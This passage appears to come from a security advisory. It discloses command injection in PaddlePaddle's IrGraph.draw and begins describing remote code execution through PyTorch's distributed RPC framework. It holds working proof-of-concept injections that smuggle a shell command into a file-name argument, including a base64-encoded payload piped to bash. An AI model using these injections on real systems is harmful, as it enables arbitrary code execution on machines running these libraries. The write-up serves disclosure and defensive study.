 

```python
import paddle
import paddle.static as static
from paddle.base.framework import IrGraph
from paddle.framework import core

graph = IrGraph(core.Graph(static.Program().desc))
graph.draw("/tmp","x;sleep 3 #") # After waiting for 3 seconds, we can understand that the code is working.
```

When the `/` character is present within the `name` parameter, the application may throw an error. Therefore, an attacker can encode their malicious code in base64, execute more complex code by subsequently decoding it.

```sh
echo -n "touch /tmp/1337"|base64 -w0
```

```python
graph.draw("/tmp","x;echo dG91Y2ggL3RtcC8xMzM3|base64 -d|bash #")
```

The `_convert_to_pdf` function will interpret the code as follows :

```sh
dot -Tpdf /tmp/x;echo dG91Y2ggL3RtcC8xMzM3|base64 -d|bash #.dot -o /tmp/x;echo dG91Y2ggL3RtcC9oaWZyb20udHh0|base64 -d|bash #.pdf
```

Impact : Allows the attacker to execute malicious code, gaining full control over the system

### Command Injection (II) - PyTorch Distributed RPC Framework Remote Code Execution in [pytorch/pytorch](https://github.com/pytorch/pytorch)

PyTorch's torch.distributed.rpc framework is usually used in distributed training scenarios such as reinforcement learning, model parallelism, and parameter server training frameworks. However, during RPC calls using torch.distributed.rpc, the framework does not verify that the function is what the developer expected. This will allow attackers to RPC over the network to call Python built-in functions, such as eval, and load other Python libraries to execute arbitrary commands.

When using torch.distributed.rpc for multi-cpu RPC communication, worker can use functions like rpc.rpc_sync to serialize and package the functions and tensors into a PythonUDF, then sent it using a PythonCall (inherited from RpcCommandBase).

Master deserializes the received PythonUDF data and calls the _run_function. This allows the worker to execute the specified function, but since there is no restriction on function calls, it can lead to remote code execution by calling built-in Python functions like eval.

To use pytorch rpc for distributed training, we need to build master and worker nodes. Each node needs to set the following environment variables to ensure network communication between nodes.

```shell
export MASTER_ADDR=1X.XX6.0X.3
export MASTER_PORT=29500
export TP_SOCKET_IFNAME=eth0
export GLOO_SOCKET_IFNAME=eth0
```
